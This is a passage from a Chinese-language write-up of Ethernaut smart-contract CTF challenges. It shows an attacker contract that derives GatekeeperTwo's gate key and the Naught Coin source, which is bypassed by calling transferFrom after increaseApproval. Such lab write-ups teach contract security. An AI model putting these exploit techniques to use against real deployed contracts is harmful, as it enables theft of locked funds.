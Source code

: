   modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract attacker{
    function attacker(address gk2Addr) public{
        bytes8 gatekey = ~bytes8(uint64(keccak256(this)));
        GatekeeperTwo(gk2Addr).enter.gas(100000)(gatekey);
    }
}
```
### 15. Naught Coin


**题目源码**：
```
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/token/ERC20/StandardToken.sol';

 contract NaughtCoin is StandardToken {
  
  using SafeMath for uint256;
  string public constant name = 'NaughtCoin';
  string public constant symbol = '0x0';
  uint public constant decimals = 18;
  uint public timeLock = now + 10 years;
  uint public INITIAL_SUPPLY = (10 ** decimals).mul(1000000);
  address public player;

  function NaughtCoin(address _player) public {
    player = _player;
    totalSupply_ = INITIAL_SUPPLY;
    balances[player] = INITIAL_SUPPLY;
    Transfer(0x0, player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) lockTokens public returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```
**题目要求**：把上锁的资金转移出来

**考点**: 对erc20合约的理解及继承的父合约方法的调用

**思路**: 由于子合约只重写了transfer方法，而忽略了transferFrom，increaseApproval方法也需要根据lock时间限制操作。 

**解题步骤**： 先用player账户increaseApproval，再用目标账户transferFrom

```